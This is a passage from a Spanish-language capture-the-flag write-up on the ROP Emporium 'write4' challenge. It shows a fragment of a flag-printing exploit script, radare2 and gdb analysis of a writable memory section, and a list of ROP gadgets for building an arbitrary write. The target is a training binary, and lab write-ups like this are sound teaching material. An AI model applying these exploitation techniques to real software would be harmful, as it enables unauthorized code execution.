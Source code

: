 ```python

# PRINT FLAG
print()

print(p.recvuntil("you!\n").decode("utf-8"))
print(p.recvuntil('}').decode("utf-8"))

p.close()
exit(0)
```

---
# write4

> Find and manipulate gadgets to construct an arbitrary write primitive and use it to learn where and how to get your data into process memory.
---

### Analizar el binario

Lo primero es ver las funciones del binario, con radare2 por ejemplo. Me llama la atención "usefulFunction", su funcionamiento es básicamente:

```
...
0x0040061b      mov edi, str.nonexistent
0x00400620      call sym.imp.print_file
...
```

Parece que intentará imprimir el contenido del fichero "nonexistent", creo ese fichero y un exploit super sencillo que salta 0x0040061b y confirmo mis sospechas.

El objetivo es que imprima el fichero "flag.txt" pero esta cadena no se encuentra en el binario, parece que tendré que escribirla yo mismo y guardar su dirección en RDI.

Primero busco una sección con permisos de escritura:

```
gdb -q write4

gef➤  entry-break

gef➤  vmmap
...
Start              End                Offset             Perm
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw-
...
```

Por ejemplo 0x601500 está dentro de esta sección. Ahora tengo que buscar gadgets que me permitan escribir ahí y guardar esa dirección en RDI:

```
$ r2 -AAA -qc /R write4
...
0x00400690	pop r14
0x00400692	pop r15
0x00400694	ret
...
0x00400628	mov qword [r14], r15
0x0040062b	ret
...
0x00400693	pop rdi
0x00400694	ret
...
```